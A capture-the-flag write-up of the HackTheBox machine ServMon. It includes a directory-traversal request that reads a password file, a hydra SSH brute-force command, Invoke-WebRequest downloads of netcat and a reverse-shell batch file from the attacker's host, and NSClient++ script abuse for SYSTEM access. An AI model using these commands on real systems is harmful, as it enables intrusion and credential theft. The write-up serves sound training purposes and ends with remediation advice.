

## Machine Information

- **Machine Name:** ServMon
- **Machine IP:** 10.10.10.184
- **Machine Type:** Easy
- **Machine OS:** Windows

---

## Reconnaissance - Information gathering

When it comes to reconnaissance then many people fail to do it correctly and that is the reason why most of them fail to hack a system. It might be boring, but reconnaissance is the building block of all the hacks, because without enough information you cannot figure out the vulnerability and exploit of a system. Hence, it is important to spent a lot of time in reconnaissance, and do it as properly as you can.

> *"The most time you spent in reconnaissance, the less time you will take in exploiting the system"*

### Ports & Services Scan

In reconnaissance, the first and foremost step is to look for *open ports and services* because they will give you a heads-up in finding vulnerable entry points in the system. It is like when you go to rob a bank, you first figure out open doors and windows, but here you look for *numbers and service names with their version*.

**Command:**
- `sudo nmap -sVC -p- -O 10.10.10.184 -oG nmapServmon`


**Output:**

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-17 16:36 EDT
Nmap scan report for 10.10.10.184
Host is up (0.021s latency).
Not shown: 65518 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_02-28-22  07:35PM       <DIR>          Users
22/tcp    open  ssh           OpenSSH for_Windows_8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 c7:1a:f6:81:ca:17:78:d0:27:db:cd:46:2a:09:2b:54 (RSA)
|   256 3e:63:ef:3b:6e:3e:4a:90:f3:4c:02:e9:40:67:2e:42 (ECDSA)
|_  256 5a:48:c8:cd:39:78:21:29:ef:fb:ae:82:1d:03:ad:af (ED25519)
80/tcp    open  http
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5666/tcp  open  tcpwrapped
6063/tcp  open  tcpwrapped
6699/tcp  open  tcpwrapped
8443/tcp open  ssl/https-alt
|_ssl-date: TLS randomness does not represent time
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     workers
|_    jobs
| http-title: NSClient++
|_Requested resource was /index.html
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after:  2021-01-13T13:24:20
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port80-TCP:V=7.95%I=7%D=4/17%Time=6801665A%P=x86_64-pc-linux-gnu%r(NULL
SF:,6B,"HTTP/1\.1\x20408\x20Request\x20Timeout\r\nContent-type:\x20text/ht
SF:ml\r\nContent-Length:\x200\r\nConnection:\x20close\r\nAuthInfo:\x20\r\n
SF:\r\n")%r(GetRequest,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20tex
SF:t/html\r\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x
SF:20\r\n\r\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20X
SF:HTML\x201\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/D
SF:TD/xhtml1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.
SF:org/1999/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\
SF:x20\x20\x20<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x2
SF:0\x20\x20\x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n")
SF:%r(HTTPOptions,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text/htm
SF:l\r\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x20\r\
SF:n\r\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML\
SF:x201\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/xh
SF:tml1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.org/1
SF:999/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x20\x
SF:20\x20<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x20\x20
SF:\x20\x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n")%r(RT
SF:SPRequest,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text/html\r\n
SF:Content-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x20\r\n\r\n
SF:\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML\x201\
SF:.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/xhtml1-
SF:transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.org/1999/x
SF:html\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x20\x20\x2
SF:0<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20\x20\x20\x
SF:20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x20\x20\x20\
SF:x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8443-TCP:V=7.95%T=SSL%I=7%D=4/17%Time=68016662%P=x86_64-pc-linux-gn
SF:u%r(GetRequest,74,"HTTP/1\.1\x20302\r\nContent-Length:\x200\r\nLocation
SF::\x20/index\.html\r\n\r\n\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\x12\x02\x18\0\x1aC\n\x07workers\x12\n\n\x04jobs\x12\x02\x1
SF:8=\x12\x0f")%r(HTTPOptions,36,"HTTP/1\.1\x20404\r\nContent-Length:\x201
SF:8\r\n\r\nDocument\x20not\x20found")%r(FourOhFourRequest,36,"HTTP/1\.1\x
SF:20404\r\nContent-Length:\x2018\r\n\r\nDocument\x20not\x20found")%r(RTSP
SF:Request,36,"HTTP/1\.1\x20404\r\nContent-Length:\x2018\r\n\r\nDocument\x
SF:20not\x20found")%r(SIPOptions,36,"HTTP/1\.1\x20404\r\nContent-Length:\x
SF:2018\r\n\r\nDocument\x20not\x20found");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=4/17%OT=21%CT=1%CU=32833%PV=Y%DS=2%DC=I%G=Y%TM=680166D
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10C%TI=I%CI=I%II=I%SS=S%TS=
OS:U)SEQ(SP=105%GCD=1%ISR=109%TI=I%CI=I%II=I%SS=S%TS=U)SEQ(SP=106%GCD=1%ISR
OS:=109%TI=I%CI=I%II=I%SS=S%TS=U)SEQ(SP=107%GCD=1%ISR=10A%TI=I%CI=I%II=I%SS
OS:=S%TS=U)SEQ(SP=FC%GCD=1%ISR=10C%TI=I%CI=I%II=I%SS=S%TS=U)OPS(O1=M53CNW8N
OS:NS%O2=M53CNW8NNS%O3=M53CNW8%O4=M53CNW8NNS%O5=M53CNW8NNS%O6=M53CNNS)WIN(W
OS:1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%
OS:O=M53CNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%
OS:T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD
OS:=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S
OS:=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R
OS:=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%
OS:RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-04-17T20:38:43
|_  start_date: N/A

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 162.10 seconds
```

From the above output, we can see there are too many open ports and services, now we will enumerate each of these services to find more information about them so we can find something to exploit.

### FTP Enumeration

First, we will go with FTP service because there is an anonymous login on the target system, and we might find some interesting files in the FTP server.

**Command:**
- `ftp 10.10.10.184`


We were able to login as *"anonymous"* user into the FTP server using anonymous credentials, and while going through the FTP server we found a directory named *"Users"* which had 2 useful directories on the name of users *"Nadine" and "Nathan"*. In the Nadine's directory, we found a file named *"Confidential.txt"* which means it hides something interesting for us.

In Nathan's directory, we found another file named *"Notes to do.txt"* which feels like a to-do list. This two files can give us some useful information which we might utilize further for our attack.


### HTTP (80) Recon

When we view the content of Confidential.txt, we get a note stating: *"I left your Passwords.txt file on your Desktop...."*, which was from Nadine to Nathan. When we viewed another file, we can see that Nathan have changed the password for NVMS and implement lock down to the NSClient Access, but he has not uploaded the Passwords yet which means the Passwords.txt file would be still on his Desktop.


If we access the url `http://10.10.10.184/` then we receive a NVMS-1000 login page, and as per my knowledge this is vulnerable to few exploits.

---

## Initial Foothold - Hm, user I am in

Most of the times this is the second step after reconnaissance. This step involves going through vulnerabilities in the system and exploiting them with either your exploits or publicly available exploits and gaining your initial access into the system.

>*"To be the root, you must first be the user. Just like to be the GOD, you must first need to be the HUMAN"*

### Searching for vulnerabilities - NVMS

**Commands:**
- `searchsploit NVMS`
- `searchsploit hardware/webapps/47774.txt`
- `searchsploit hardware/webapps/48311.py`



As we have seen that we are redirected to the NVMS-1000 login page, and we do find exploits for it on searchsploit. It is crucial to note that exploits are not important, your mindset is; Think how would you exploit this system in a way that you do not get stuck? If we think back then we know that there is a Passwords.txt file on Nathan's Desktop and it might contain sensitive information, so Directory Traversal exploit looks perfect for this task.


**Links:**
- [CVE-2019-20085](https://nvd.nist.gov/vuln/detail/CVE-2019-20085)
- [Exploitdb](https://www.exploit-db.com/exploits/47774)

I researched a bit about the vulnerability and exploit because I wanted to make my own exploit for this Hackthebox machine (there is no dedicated exploit for this machine, so I decided to make my own). NVD page is good to review for vulnerability and exploitdb is good for exploit review. The exploit is a python script and I think I can replicate the same exploit for this machine too with python.

### Reviewing Exploit - 47774.txt

After doing some research on the exploit found, we gather some more information on the vulnerability that is exploited and some notes on what can the exploit do. The CVE id for the vulnerability I am using here is CVE-2019-20085, which is a directory traversal vulnerability on NVMS 1000.


**ExploitDB:** [CVE-2019-20085](https://www.exploit-db.com/exploits/48311)

The above linked exploit is in python2, and it works perfectly fine. I have created my own exploit which is shown below but you can use whichever you want. My version of the exploit is based on python3 which makes it more stable, but this exploit works for this box.
### Manual Exploitation - No script!

Exploiting any service or product manually will expand your understanding on how the vulnerability actually works, this requires no script for automation, it only requires BurpSuite so we can send our malicious request. 


In the above image, I modified the `GET` line and added few `../` with our final destination which is the `Passwords.txt` file on Nathan's Desktop. The site gives a response where we can see the passwords stored on that file. I did this because I wanted to verify if the vulnerability do exist or not, and it is always a good practice to try it manually first if you have time and resources.

**Modification:** `GET /../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt`

### Automatic Exploitation - Script based!

Now that we know that the site is vulnerable to *Directory Tranversal*, we can use some scripts to perform this task. If you are doing this in OSCP then I would say to use the exploit from public sources and do not program your own exploit, because it is time-consuming. Here, just for my curiosity sake I created my own python3 exploit for NVMS 1000.


I have to hide few details in the image because this code had few sensitive details on it, but the public version is similar and it works for the box (I actually used public version). After using this exploit, we get the `Passwords.txt` file on our system.

**My Exploit:** [CVE-2019-20085](https://github.com/Z3R0-0x30/CVE-2019-20085)


**Commands:**
- `sudo hydra -l nathan -P Passwords.txt 10.10.10.184 ssh -s 22`
- `sudo hydra -l Nadine -P Passwords.txt 10.10.10.184 ssh -s 22`

We used the `Passwords.txt` as a wordlist and performed a dictionary attack on both of the known users. We found Nadine's password from this, which is `L1k3B1gBut7s@W0rk` and now we can use it to login as Nadine through ssh.


We were successfully able to login as `Nadine` and we also got the user flag, this is where our initial foothold is completed and now our next step would be compromising the admin's account.

## Privileges Escalation - Lemme root!

This is the last step in our exploitation phrase where we will try to gain admin-level privileges of the machine. In this stage, it is generally to abuse any service, misconfigured rights, or misconfigured policies which led us to compromise the admin's account.


After successful login to Nadine's account, I went back and referred to my nmap output, and we see a unique port open on `8443/TCP` open which has a http-title of `NSClient++`, it looked suspicious so I use searchsploit to find any potential exploits for NSClient.

**Commands:**
- `searchsploit NSClient`
- `searchsploit -m json/webapps/48360.txt`
- `searchsploit -m windows/local/46802.txt`
- `searchsploit -m hardware/webapps/47774.txt`


I tried one of the exploit which revealed the password stored in NSClient software, which might guide us ahead to escalate our privileges.


The configuration file of NSClient was open to read for our user, so we got a password from that file which we used to login into NSClient, but something is blocking our connection.


**Command:**
- `sshpass -p '[password] ssh Nadine@10.10.10.184 -L 8443:127.0.0.1:8443`

We viewed that the website was running on localport 8443 at the target which was not accessed by us, so we did a local-port forward using ssh and now we can access that site at our local-address on 8443.


We were successfully able to login through this site by using the password we got from NSClient password exposure. 

**Commands:**
- `cat Z3R0x30.bat`
- `python3 -m http.server`


We have netcat executable and a bat executable which will execute a netcat reverse shell in our Windows target to our machine.

**Commands:**
- `powershell`
- `Invoke-WebRequest -Uri http://10.10.14.12:8000/nc.exe -OutFile nc.exe`
- `Invoke-WebRequest -Uri http://10.10.14.12:8000/Z3R0x30.bat -OutFile Z3R0x30.bat`


We downloaded both the things from our local system to the target machine through `Invoke-WebRequest` command, and then we used `scripts` feature of NSClient to execute a script, and as we are running NSClient with admin privileges, then the script which will be executed (our reverse shell) will be also from admin privileges.

Go to the dashboard of NSClient, there go in the Settings > external scripts > Add new. Add the following details:

1. Section - /settings/external scripts/scripts/(any name)
2. Key - command to execute
3. Value - C:\temp\Z3R0x30.bat

Add this and you will see *"changes"* on the top right corner of the screen, press it to apply the changes. Now, click on *"Control"* which is on the top right corner and click *"reload"*. Now wait for the site to be reloaded.


Lastly, set a listener on the port 443 and go to the *"Queries"* tab on the website, then click your selected query that you made and execute it. If it does not work, or fails to give a reverse shell, then reload it again and execute the query once again. I was able to get the root privileges and we also got the root flag.

## Manual Privileges Escalation - My exploit

We are finished with the machine, so if your only moto was to get the admin privileges then this section is not for you, but if you are someone who wants to learn and get inspired then I welcome you in a section where I wrote my own script to do what we exactly did on the privilege escalation path.


**My exploit:** [EDB-46802](https://github.com/Z3R0-0x30/EDB-46802)

You can refer to my exploit and make your own, it works in a very simple manager. You just need to give it the command to execute with username and password. It is an authenticated exploit, so you will need admin credentials in NSClient to execute this.

## Conclusion - THE END

ServMon presented a classic example of how multiple small misconfigurations - an outdated web application, poorly secured credentials, and excessive user permissions - can chain together to result in full system compromise. While the individual components were not inherently high-risk on their own, their combined weaknesses created an exploitable attack path from unauthenticated access to `NT AUTHORITY\SYSTEM`. This machine reinforces the need for regular patching, secure credential practices, and the principle of least privilege in system and service configurations.

### Lessons Learned - what we learned?

- The importance of thorough **reconnaissance** - especially when dealing with web applications running on non-standard ports.
- How **Local File Inclusion (LFI)** vulnerabilities can escalate quickly if sensitive files are exposed.
- **Service enumeration** post-initial-access is crucial; seemingly benign services like `NSClient++` can become a privilege escalation vector.
- Utilizing **SSH tunneling** to pivot and access internal services is a valuable skill, especially when remote web interfaces are not exposed externally.
- The significance of **user permission** on services - even limited users can sometimes restart services or execute scripts, leading to privilege escalation.

### Vulnerabilities Exploited - Pwned!

- **LFI (Local File Inclusion)** in the NVMS-1000 web application allowed access to user files, including credential dumps.
- **Plaintext credentials** stored insecurely on the filesystem provided a direct foothold via SSH.
- **Poor configuration** of `NSClient++`, including:
	- Web interface exposed without strong access control.
	- Arbitrary script execution allowed in `SYSTEM` context.
- **Over-permissive user privileges** enabling the restart of services like `NSCP`, which led to full system compromise.

### Recommended Fixes - Fix me :)

- **Patch or decommission** vulnerable software like NVMS-1000 if no longer supported.
- **Avoid storing sensitive credentials** in plaintext; use encrypted vaults or credential managers.
- **Limit SSH access** and enforce MFA where possible.
- **Harden service configurations:**
	- Lock down `NSClient++` with authentication and minimal privileges.
	- Restrict or disable unnecessary web interfaces.
- **Review group and user permissions** regularly to avoid privilege escalation vectors through misconfigured services.

### Last note

If you liked my writeup and want to be a part of my cybersecurity community then do join the following socials:

1. [Instagram](https://www.instagram.com/_0x30_/)
2. [Discord](https://discord.gg/wyfwSxn3YB)
